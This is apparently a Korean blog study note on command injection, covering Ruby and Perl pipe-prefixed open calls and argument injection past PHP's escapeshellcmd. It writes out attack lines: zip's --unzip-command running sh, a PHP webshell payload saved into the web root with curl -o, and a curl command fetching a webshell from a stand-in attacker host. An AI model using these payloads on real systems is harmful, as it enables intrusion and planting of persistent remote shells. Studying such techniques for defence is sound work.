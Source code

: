 ```yaml
---
layout: single
title: 언어별 취약 시스템 명령어
categories: Web-vuln
tag: [system, cmd, web Vulnability]
toc: true
author_profile: false
---
```


# Ruby & Perl
두 언어의 경우 파일 및 하위 프로세스의 I/O를 제공하는 open 함수가 존재한다. 

```ruby
[Ruby]
File.open("example.txt", "r") do |file|
  contents = file.read
  puts contents
end

[Perl]
open(my $file_handle, "<", "example.txt") or die "파일 열기 실패: $!";
while (my $line = <$file_handle>) {
    print $line;
}
close($file_handle);
```

만약 첫 번째 문가자 | (파이프라인)일 경우 pipe_open 함수에서 처리된다. 해당 함수는 새로운 프로세스를 생성하므로, 임의 명령어를 실행시킬 수 있다.<br>
rb_io_s_binred, rb_io_open, rb_is_s_read를 사용하는<br>
IO.read, IO.bindread 두 함수를 사용하더라도 전달된 인자에 따라 프로세스를 실행하므로 아래와 같이 open함수처럼 사용할 수 있다.

```ruby
[Ruby]
open("|id > /tmp/test")
IO.read("/tmp/test")
-------
IO.read("|id")
-------
IO.binread("|id")

[Perl]
perl -e 'open A, "|id"'
```

# PHP

php의 경우 기본적으로 system 함수가 주어지지만 OS Injection 방지를 위해 escapeshellcmd라는 함수를 사용한다. 이는 메타 문자가 입력되었을 경우 해당 문자 앞에 \ 을 삽입하여 문자 그 자체로 인식되도록 하고있다.<br>
하지만 특정 명령어의 인자로 입력값이 전달되는 경우 실행하고자 하는 명령어의 옵션을 조작할 수 있다.<br>

기본적으로

1. escapeshellcmd
2. escapeshellarg

두 함수가 존재하며, escapeshellcmd 함수의경우 메타 문자를 활용하지는 못하지만 명령어의 **옵션 또는 인자를 조작할 수는 있다**.<br>

## 이를 어떻게 활용할 수 있을까?

1. zip
    - zip 명령어의 —unzip-command 옵션이 존재한다 이는 인자로 전달된 명령어를 실행한다.

    ```shell
    zip /tmp/test.zip /etc/passwd -T --unzip-command="sh -c id"
    ```

2. python
    - 파이썬의 -c옵션은 명령줄로 코드를 실행 할 수 있다.

    ```python
    python -c '__import__("os").system("id")' input.py
    ```

3. curl
    - curl의 -o옵션은 임의 경로에 파일을 저장할 수 있다. WebShell을 올리는 방안이 된다.

    ```shell
    http://test.locat/test/?mgs=<?%3Dsystem($_GET[cmd]);?> -o /var/www/html/uploads/webshell.php
    ```

    -o 옵션을 통해 외부의 데이터 또한 저장할 수 있다.<br>
    공격자의 웹 서버에 WebShell 을 업로드 한 상태에서<br>
    curl http://attack.com/webshell.php -o /var/www/html/webshgell.php<br>
    와 같이 업로드가 가능하다.<br>

> /var/www/html은 아파치의 기본 경로이다. 즉 index 라고 생각하면 된다.

혹은 아래와 같이 특정 데이터를 추출해 저장할 수도 있다.

```shell
curl http://test.local -o /tmp/hello.txt
```

위 코드의 경우 tset.local 에서 반환되는 데이터를 hello.txt에 저장하는 예시이다.

4. wget
    - wget 또한 curl과 동일하게 사용된다.
    
    ```shell
    wget http://test.local -o hello.txt
    ```